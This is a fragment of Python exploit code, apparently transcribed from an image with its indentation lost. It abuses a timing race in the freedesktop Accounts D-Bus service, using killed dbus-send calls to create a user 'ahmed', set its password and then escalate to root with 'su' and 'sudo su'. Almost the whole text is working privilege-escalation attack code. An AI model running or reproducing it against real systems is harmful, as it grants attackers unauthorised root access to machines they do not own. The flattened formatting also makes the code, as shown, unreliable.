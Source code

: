```shell
if user.find("uid") != -1:

print("[+] User Created with the name of ahmed")

print("[+] Timed out at: "+str(Random))

check =False

break

if counter > 2000:

print("[-] Couldn't add the user, try again it may work")

sys.exit(0)

for i in range(200):

#print(i)

uid = "/org/freedesktop/Accounts/User"+str(pwd.getpwnam('ahmed').pw_uid)

#In case you need to put a password un-comment the code below and put your password after string:yourpassword'

password = "string:"

#res = subprocess.run(['openssl', 'passwd','-5',password], stdout=subprocess.PIPE).stdout.decode('utf-8')

#password = f"string:{res.rstrip()}"

process = subprocess.Popen(['dbus-send','--system','--dest=org.freedesktop.Accounts','--type=method_call','--print-reply',uid,'org.freedesktop.Accounts.User.SetPassword',password,'string:GoldenEye'])

try:

#print('1 - Running in process', process.pid)

Random = random.uniform(0.006,0.009)

process.wait(timeout=Random)

process.kill()

except subprocess.TimeoutExpired:

#print('Timed out - killing', process.pid)

process.kill()

print("[+] Timed out at: " + str(Random))

print("[+] Exploit Completed, Your new user is 'Ahmed' just log into it like, 'su ahmed', and then 'sudo su' to root ")

p = subprocess.call("(su ahmed -c 'sudo su')", shell=True)
```
